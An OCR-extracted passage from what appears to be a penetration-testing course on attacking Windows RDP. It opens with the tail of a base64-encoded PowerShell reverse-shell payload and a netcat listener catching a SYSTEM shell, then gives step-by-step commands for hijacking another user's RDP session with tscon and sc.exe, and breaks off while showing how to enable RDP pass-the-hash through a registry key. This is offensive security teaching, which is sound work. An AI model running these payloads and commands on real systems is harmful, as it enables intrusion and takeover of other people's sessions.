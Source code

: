 ```bash
cwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdA
BoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAu
AGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoAC
QAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMA
ZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOw
AkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA'
```

Once the victim authenticates to our server, we poison the response and make it execute our
command to obtain a reverse shell.

```bash
nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.110.133] from (UNKNOWN) [10.10.110.146] 52471
PS C:\Windows\system32> whoami;hostname
nt authority\system
WIN11BOX
```

To successfully impersonate a user without their password, we need to have SYSTEM
privileges and use the Microsoft tscon.exe binary that enables users to connect to another
desktop session. It works by specifying which SESSION ID ( 4 for the lewen session in our
example) we would like to connect to which session name ( rdp-tcp#13 , which is our
current session). So, for example, the following command will open a new console as the
specified SESSION_ID within our current RDP session:
C:\htb> tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
If we have local administrator privileges, we can use several methods to obtain SYSTEM
privileges, such as PsExec or Mimikatz. A simple trick is to create a Windows service that, by
default, will run as Local System and will execute any binary with SYSTEM privileges. Wewill use Microsoft sc.exe binary. First, we specify the service name ( sessionhijack ) and
the binpath , which is the command we want to execute. Once we run the following
command, a service named sessionhijack will be created.
C:\htb> query user
USERNAMESESSIONNAMEIDSTATEIDLE TIME
LOGON
TIME
>juurenardp-tcp#131Active78/25/2021
rdp-tcp#142Active*8/25/2021
1:23 AM
lewen
1:28 AM
C:\htb> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2
/dest:rdp-tcp#13"
[SC] CreateService SUCCESS


To run the command, we can start the sessionhijack service :
C:\htb> net start sessionhijack

RDP Pass-the-Hash (PtH)
We may want to access applications or software installed on a user's Windows system that
is only available with GUI access during a penetration test. If we have plaintext credentials
for the target user, it will be no problem to RDP into the system. However, what if we only
have the NT hash of the user obtained from a credential dumping attack such as SAM
database, and we could not crack the hash to reveal the plaintext password? In some
instances, we can perform an RDP PtH attack to gain GUI access to the target system using
tools like xfreerdp .
There are a few caveats to this attack:
Restricted Admin Mode , which is disabled by default, should be enabled on the
target host; otherwise, we will be prompted with the following error:This can be enabled by adding a new registry key DisableRestrictedAdmin
(REG_DWORD) under HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa . It
can be done using the following command:
Adding the DisableRestrictedAdmin Registry Key
C:\htb> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v